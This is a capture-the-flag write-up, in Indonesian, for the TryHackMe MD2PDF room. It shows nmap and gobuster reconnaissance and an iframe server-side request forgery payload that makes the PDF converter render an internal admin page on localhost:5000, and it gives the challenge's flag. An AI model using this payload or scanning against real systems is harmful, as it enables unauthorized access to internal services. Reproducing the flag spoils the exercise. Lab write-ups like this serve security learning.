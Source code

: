 # MD2PDF
- TryHackMe Challenge: https://tryhackme.com/room/md2pdf
- IP Machine: 10.10.187.198

## Task 1 Challenge
- Lakukan port scanning dengan tool `nmap`
```sh
nmap -sC <IP_Machine>
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/MD2PDF/assets/md%201.JPG)

- Port 80 (http) terbuka, sekarang kita coba akses halaman web lewat browser dengan url `http://<IP_Machine>`

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/MD2PDF/assets/md%202.JPG)


- MD2PDF adalah singkatan dari [Markdown2PDF](https://github.com/realdennis/md2pdf). Halaman tersebut berfungsi mengubah markup HTML ke format PDF. Hal ini berpotensi untuk melakukan serangan XSS dan SSRF (Server Side Request Forgery).
- Sekarang kita coba temukan halaman tersembunyi dengan tool gobuster
```sh
gobuster dir -u http://<IP_Machine> -w /usr/share/wordlists/dirb/common.txt
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/MD2PDF/assets/md%203.JPG)

- Ditemukan halaman **/admin** dari report gobuster. Sekarang kita buka halaman tersebut di browser dengan url `http://<IP_Machine>/admin`. Ternyata halaman tersebut hanya bisa diakses secara internal lewat localhost dan port 5000

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/MD2PDF/assets/md%204.JPG)

- Sekarang kita injekkan iframe ke markup PDF di halaman `http://<IP_Machine>` untuk menampilkan isi halaman **/admin**
```sh
<iframe src="http://localhost:5000/admin" height="1000" width="1000">
</iframe>
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/MD2PDF/assets/md%205.JPG)

- Tekan tombol **Convert to PDF** maka di dapat hasil sebagai berikut

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/MD2PDF/assets/md%206.JPG)

**Pertanyaan:** What is the flag?

**Jawaban:**
```sh
flag{1f4a2b6ffeaf4707c43885d704eaee4b}
```